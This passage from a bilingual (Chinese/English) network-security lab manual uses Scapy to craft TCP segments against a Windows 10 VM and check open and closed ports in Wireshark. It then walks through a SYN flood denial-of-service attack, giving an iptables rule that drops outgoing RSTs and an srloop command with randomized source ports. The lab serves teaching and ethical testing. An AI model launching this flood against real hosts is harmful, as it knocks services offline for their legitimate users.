

图 16-33 Scapy 又发送了两个数据包。

在 Wireshark 中找到相应的有效载荷。

2a–2g

### 步骤 2：使用 Scapy 发送自定义 TCP 段


a. 在 Wireshark 中使用 `tcp.port == 445 || tcp.port == 246` 作为显示过滤器，以显示 TCP 头中源端口或目的端口为 445 或 246 的数据包。

输入以下命令发送一个封装在 IP 数据包中的 TCP 段，其目的端口为 445：

```
sr(IP(dst="192.168.1.108")/TCP(dport=445))
```

（将 IP 地址替换为 Windows 10 虚拟机的 IP 地址。）

`send()` 函数已被 `sr()` 函数取代，后者同时跟踪发送和接收数据。请注意 Scapy 中的输出，如图 16-34 顶部所示。



## FIGURE 16-36 A TCP segment sent to port 445

再次注意 Scapy 和 Wireshark 中的差异。在图 16-35 中，你会注意到 RA，这表示 Windows 10 虚拟机发送了 RST（以及 ACK）作为响应，因为端口 246 已关闭。而在图 16-36 中，你会注意到 SA，这表示 Windows 虚拟机发送了 SYN/ACK 作为响应，因为端口 445 是开放的。

3a–3q

## Step 3 Build network traffic up from scratch.

+   a. 输入 `ip=IP()` 来构造一个 IP 数据包并将字段和值存储在名为 `ip` 的变量中。

```
>>> segment445=sr(IP(dst="192.168.1.108")/TCP(dport=445))
Begin emission:
*Finished sending 1 packets.

Received 1 packets, got 1 answers, remaining 0 packets
>>> segment445
(<Results: TCP:1 UDP:0 ICMP:0 Other:0>,
<Unanswered: TCP:0 UDP:0 ICMP:0 Other:0>)
>>> ans,unans=
>>> ans.summary()
IP / TCP 192.168.1.114:ftp_data > 192.168.1.108:microsoft_ds S ⇌
IP / TCP 192.168.1.108:microsoft_ds > 192.168.1.114:ftp_data SA / Padding
>>>
```

+   m. 输入 **tcp.flags="S"** 来关闭 ACK 标志，仅指定 SYN 标志应打开。
+   
+   n. 输入 **tcp.dport=11210** 将 TCP 段中的目的端口更改为 11210。
+   
+   在 Windows 10 虚拟机的 Wireshark 中将显示过滤器更改为 **tcp.port==11210**。
+   
+   o. 逐一输入
+   `ip.display()`
+   `tcp.display()`
+   
+   再次查看 IP 数据包和 TCP 段的值，如图 16-37 所示。

## FIGURE 16-37 IP header and TCP header in Scapy

p. 输入 `sr1(ip/tcp)`。

`sr()` 函数发送数据包并接收应答。`sr1()` 函数仅记录初始响应，如图 16-38 所示。



## FIGURE 16-38 RST and ACK flags in return

q. 输入以下内容，每条命令后按 ENTER：

```
tcp.dport=445
```

```
sr1(i/t)
```

当你将目的端口更改为 445（并将 Wireshark 过滤器更改为 `tcp.port==445`）时，再次在 Scapy 输出和 Wireshark 捕获中，你会注意到发送回了 SYN/ACK，因为端口 445 是开放的。

4a–4e

## Step 4 A SYN flood attack is a type of DoS attack where an attacker sends an enormous amount of TCP segments with the SYN flag set in hopes of bringing down a server or network. The attacking machine says “SYN.” The victim machine replies with “SYN/ACK.” However, the attacking machine now says… nothing! That’s a half-open connection! A good amount of these half-open connections could bring a server to its knees, keeping it from connecting with legitimate clients, because there are no more connections available. This DoS attack compromises the availability of the victim machine. Scapy can be used to test for (ethical pentest) or carry out (unethical cyberattack) such an attack. That’s exactly what you’ll do in this step.

+   a. 回想一下 Nmap 发送 SYN 并收到 SYN/ACK 的情况。Nmap 然后发送 RST，从而关闭连接。但这不再是端口扫描。我们想要执行 SYN Flood 攻击，因此发送 RST 会关闭半开连接。我们希望有大量这些半开连接，因此需要采取额外措施。为了阻止 Kali Linux 发送 RST 从而关闭连接，破坏 SYN Flood 攻击，我们将编写一条 iptables（数据包过滤）规则来丢弃（阻止）所有从 Kali Linux 发出、带有 RST 标志的 TCP 段。这样，受害机器就不会收到 RST 并关闭连接，大量的半开连接将保持半开状态。
+   
+   在 Kali Linux 中，打开一个新的终端（保持 Scapy 不变）并输入以下命令：
+   
+   ```
+   sudo iptables -A OUTPUT -o eth0 -p tcp --tcp-flags RST RST -j DROP
+   ```
+   
+   现在，修改上一步中现有的 IP 数据包和 TCP 段。

+   b. 回到 Scapy，输入
+   
+   ```
+   tcp.sport=RandShort()
+   ```
+   
+   使用 `RandShort()` 函数创建随机源端口。

+   c. 在 Scapy 中，输入
+   
+   ```
+   ans,unans=srloop(ip/tcp,inter=.03,retry=2,timeout=4)
+   ```
+   
+   使用 `srloop()` 函数，该函数会持续循环发送 SYN 段（发送和接收）。你会在 Scapy 中看到大量活动，如

## FIGURE 16-39 SYN scan from Scapy

+   d. 在 Windows 10 虚拟机上启动新的捕获并根据 Kali Linux 虚拟机的 IP 地址进行嗅探。

+   e. 在 Windows 10 命令提示符中，输入以下命令，这将使 `netstat` 每秒运行一次，1 即代表此间隔。（按 CTRL-C 退出。）
+   netstat -an 1

你会看到类似于图 16-40 的输出。



## FIGURE 16-40 SYN scan on the Windows 10 VM

+   f. 在 Scapy 中，输入 `ans.summary()` 以通过 Scapy 的 `summary()` 函数显示 SYN Flood 攻击的摘要。

## Lab Analysis

+   1. SYN 扫描和 connect 扫描有什么区别？

+   2. 对于 DNS 或 DHCP，哪种扫描最好，为什么？
